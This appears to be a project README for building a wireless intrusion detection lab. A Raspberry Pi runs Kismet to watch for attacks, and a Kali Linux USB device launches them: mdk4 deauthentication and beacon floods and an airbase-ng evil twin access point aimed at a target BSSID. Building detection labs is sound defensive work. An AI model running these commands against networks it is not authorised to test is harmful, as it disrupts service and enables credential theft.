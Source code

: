 # 🛠️ WIDRS Setup Guide

This guide explains how to set up a Wireless Intrusion Detection and Response System (WIDRS) using:

1. **Raspberry Pi** — as the wireless intrusion detection system  
2. **Kali Linux Live USB** — as the attacker device to simulate wireless threats

---

## 🛰️ 1. Raspberry Pi Setup (Monitoring Device)

### 🔧 Steps

#### 1. Flash Kali Linux to SD Card
- Download the Kali ARM image from [https://www.kali.org/get-kali/](https://www.kali.org/get-kali/)
- Flash the image to an SD card using **Raspberry Pi Imager** or **Balena Etcher**
- Insert the SD card into the Raspberry Pi and boot

#### 2. Update System
```bash
sudo apt update && sudo apt upgrade
```

#### 3. Install Tools
```bash
sudo apt install kismet aircrack-ng
```

#### 4. Enable Monitor Mode
```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
iwconfig
```
- Confirm that `wlan0mon` appears and is active

#### 5. Start Kismet
```bash
sudo kismet -c wlan0mon
```

#### 6. Access Dashboard
- Open a browser and navigate to: `http://localhost:2501`
- View real-time alerts in the **Alerts** tab

---

## ⚔️ 2. Kali Linux Live USB Setup (Attacker Device)

### 🔧 Steps

#### 1. Flash Kali to USB
- Download the Kali ISO from [https://www.kali.org/get-kali/](https://www.kali.org/get-kali/)
- Flash the ISO to a USB drive using **Rufus** (Windows) or `dd` (Linux/macOS)

#### 2. Boot from USB
- Enter the BIOS/UEFI setup
- Set the USB as the first boot option
- Boot into **Kali Live Mode**

#### 3. Enable Monitor Mode
```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```

#### 4. Scan for Nearby Networks
```bash
airodump-ng wlan0mon
```
- Identify your target network’s:
  - **BSSID** (MAC address)
  - **Channel number**

#### 5. Lock Adapter to Target’s Channel
```bash
sudo iwconfig wlan0mon channel <channel_number>
```

---

## 💣 Launch Simulated Attacks

#### 🚫 Deauthentication Flood
```bash
mdk4 wlan0mon d -B <BSSID>
```

#### 🌀 Fake Access Point Flood
```bash
mdk4 wlan0mon b -s 1000
```

#### 🎭 Evil Twin Access Point
```bash
airbase-ng -e "TargetSSID" -c <channel_number> wlan0mon
```

---

## ✅ Detection via Kismet
Kismet on the Raspberry Pi should detect:
- **DEAUTH/FLOOD** — Deauthentication spam
- **EVILTWIN / SPOOF** — Rogue APs mimicking SSIDs
- **FORMATSTRING** — Excessive AP spam or malformed packets

⚠️ **Note**: Ensure both devices are operating on the same Wi-Fi channel for effective detection.
